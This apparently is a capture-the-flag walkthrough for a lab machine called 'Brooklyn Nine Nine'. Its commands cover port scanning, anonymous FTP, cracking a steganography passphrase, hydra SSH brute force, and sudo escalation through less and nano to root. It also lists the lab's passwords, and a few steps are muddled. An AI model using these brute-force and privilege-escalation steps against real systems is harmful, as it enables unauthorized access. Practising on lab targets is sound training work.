










## **Brooklyn Nine Nine**

```
nmap -sC -sV -p- 10.48.160.254
```

```
gobuster dir -u http://10.48.160.254 -w dirbuster/wordlists/directory-list-2.3-medium.txt
```



We found FTP port open, so let us try anonymous login

```
ftp 10.48.160.254
```

Username and Password both are : anonymous



We found a file called note_to_jake.txt, let us transfer this file in our system

```
get note_to_jake.txt
```

We got the file let us open it

```
cat get note_to_jake.txt
```

Found a username called Jake



Now if we go to the IP in website, Right Click -> View page source



We found a clue that we can use steganography and also got a link for a url

```
http://10.48.160.254/brooklyn99.jpg
```

Download the image and let us perform steganography

```
steghide extract -sf brooklyn99.jpg
```

It asks us for a passphrase which we dont have so we will brute force into it

```
stegcracker Downloads/brooklyn99.jpg rockyou.txt
```

```
cat Downloads/brooklyn99.jpg.out
```



```
fluffydog12@ninenine
```

We got a password but if we try logging in, it doesnt help so let us try something different

For this we will do brute forcing using hydra and we will require Seclists

```
git clone https://github.com/danielmiessler/SecLists.git
```

```
hydra -l Jake -P SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt ssh://10.48.160.254
```

It gave us password

```
987654321
```

Now we will do ssh login

```
ssh jake@10.48.160.254
```



```
find / -name user.txt 2>/dev/null
```

We found a file at /home/holt/user.txt but we are not holt but we do have password of holt which we got from the image

```
fluffydog12@ninenine
```

Now let us switch to holt

```
su holt
```

Enter password we got 

```
cat /home/holt/user.txt
```



```
sudo -l
```

We found a bin called less which is weak so we will misuse this using gtobins

https://gtfobins.org/gtfobins/nano/

```
cd /usr/bin
```



```
less /root/root.txt
```



## Method-2

This method wont' work now as there is some problem with nano bin so its better to try one with user jake which has jake

Now will do this one inside holt

```
sudo -l
```

We got nano SUID binary having root privileges so we will misuse it

https://gtfobins.org/gtfobins/nano/

```
cd /bin
```

```
nano -s /bin/sh
```

```
/bin/sh
```

Do CTRL+ T to save it and now we are root




